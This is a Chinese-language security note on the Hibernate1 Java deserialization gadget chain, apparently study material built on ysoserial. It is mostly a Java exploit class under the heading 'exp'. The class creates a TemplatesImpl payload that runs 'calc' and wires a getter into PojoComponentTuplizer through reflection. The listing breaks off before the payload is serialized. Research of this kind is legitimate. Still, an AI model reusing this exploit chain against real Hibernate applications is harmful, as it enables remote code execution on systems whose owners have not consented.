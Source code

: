 # Hibernate

开源的一个 ORM (建议补一下软件工程)框架，用户量极其庞大，Hibernate1（现在有1和2两个） 依旧是利用 TemplatesImpl 这个类，找寻 `_outputProperties` 的 getter 方法的调用链。

## exp

```java
package dem0.deserialization.Hibernate;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.hibernate.type.Type;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.tuple.component.PojoComponentTuplizer;
import org.hibernate.type.ComponentType;
import sun.reflect.ReflectionFactory;
import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;

import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Hibernate1  {
    public static void main(String[] args) throws Exception {
        Class<?> componentTypeClass             = Class.forName("org.hibernate.type.ComponentType");
        Class<?> pojoComponentTuplizerClass     = Class.forName("org.hibernate.tuple.component.PojoComponentTuplizer");
        Class<?> abstractComponentTuplizerClass = Class.forName("org.hibernate.tuple.component.AbstractComponentTuplizer");
        Object templatesImpl = Gadgets.createTemplatesImpl("calc");
        Method method = TemplatesImpl.class.getDeclaredMethod("getOutputProperties");
        Object getter;
        try{
            Class<?> aClass = Class.forName("org.hibernate.property.access.spi.GetterMethodImpl");
            Constructor<?> constructor = aClass.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
            getter = constructor.newInstance(null, null, method);
        }catch (Exception pas){
            Class<?> accessor = Class.forName("org.hibernate.property.BasicPropertyAccessor$BasicGetter");
            Constructor<?> constructor = accessor.getDeclaredConstructor(Class.class, Method.class, String.class);
            constructor.setAccessible(true);
            getter = constructor.newInstance(templatesImpl.getClass(),method,"OutputProperties");
        }

        //新建一个PojoComponentTuplizer
        PojoComponentTuplizer pojo = (PojoComponentTuplizer) Reflections.createWithoutConstructor(pojoComponentTuplizerClass);

        //给他的getters 赋值
        Field field = abstractComponentTuplizerClass.getDeclaredField("getters");
        field.setAccessible(true);
        Object getters = Array.newInstance(getter.getClass(), 1);
        Array.set(getters, 0, getter);
        field.set(pojo,getters);
```